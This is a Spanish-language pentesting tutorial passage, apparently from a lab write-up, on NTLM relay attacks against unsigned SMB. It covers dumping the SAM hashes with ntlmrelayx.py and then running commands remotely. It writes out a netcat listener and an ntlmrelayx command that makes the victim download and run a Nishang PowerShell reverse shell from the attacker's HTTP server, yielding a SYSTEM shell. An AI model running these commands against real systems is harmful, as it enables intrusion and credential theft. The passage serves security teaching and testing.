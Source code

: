 Nos dumpea la SAM!!!! 

Esto se debe a que como el samba no está firmado no se puede validar la legitimidad del origen como atacante le engañamos haciendonos pasar por el samba para que se autentique contra nosotros y redirigimos el flujo de la autenticación sobre el equipo víctima para dumpear la SAM de forma automatizada a través de la utilidad `ntlmrelayx.py`.

De esta forma podríamos hacer pass the hash o craquear los propios hashes… 

## EJECUCIÓN DE COMANDOS A TRAVÉS DE NTLMRELAYX

El proceso es muy similar, usaremos el responder como lo hemos usado hasta ahora y `ntlrelayx.py` pero con otros parámetros.

Con el **parámetro -c** en `ntlmrelayx.py` podemos especificar el comando que queremos ejecutar a nivel de sistema al envenenar la comunicación.

En este punto podríamos intentar ganar acceso a uno los equipos usando una reverse shell.

Para ello usaré una reverse shell del repositorio de [Nishang](https://github.com/samratashok/nishang).

[GitHub - samratashok/nishang: Nishang - Offensive PowerShell for red team, penetration testing and offensive security.](https://github.com/samratashok/nishang)

En concreto utilizaré solo 1 línea que es lo que me interesa que he de incorporar a un archivo.

![](/assets/images/articles/pentesting-windows1/Untitled%209.png)

Una vez añadida esta línea al archivo me abro un servidor de python3 —> `python3 -m http.server 8080` y pongo un oyente de netcat en escucha en el puerto 800 —> `sudo nc -lnvp 800`.

Lanzo el responder como hasta entonces y ejecuto el `ntlmrelayx.py` con los siguientes parámetros.

![](/assets/images/articles/pentesting-windows1/Untitled%2010.png)

`sudo impacket-ntlmrelayx.py -tf target.txt -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString(http://ip:8080/file.ps1)"`

Al acceder a un recurso compartido que no existe o no está activo desde el equipo PC-ELC4BR4 con el usuario cfernandez que posee privilegios de Administrador obtendremos una shell como **NT AUTHORITY\SYSTEM** en el equipo **PC-TIMOTI**.

![](/assets/images/articles/pentesting-windows1/Untitled%2011.png)
